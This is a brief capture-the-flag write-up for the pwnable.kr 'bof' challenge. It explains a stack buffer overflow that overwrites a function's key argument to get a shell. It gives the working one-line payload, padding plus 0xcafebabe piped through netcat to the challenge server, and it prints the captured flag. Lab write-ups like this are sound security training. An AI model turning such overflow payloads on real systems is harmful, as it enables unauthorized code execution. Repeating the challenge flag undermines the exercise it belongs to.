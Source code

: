 # BOF

Looking at the source code we know there's a classic buffer overflow in the func function. Also, the binary is compiled with stack canaries, so if we overwrite the canary, and return from the function, we will get a stack smashing error and the binary will crash. Luckily for us we just need to overwrite the key parameter passed in on the stack and we get shell access.

### exploit
```bash
(python -c 'print "A" * 52 + "\xbe\xba\xfe\xca"' && cat) | nc pwnable.kr 9000
```
Note: I was oddly stuck trying ti submit the exploit. It worked locally in radare2, but not remotely. Turns out I needed some stupid trick with "cat" to be able to submit the exploit code after scanf() runs. Without cat, the execution would end before scanf() was reached.

flag: daddy, I just pwned a buFFer :)
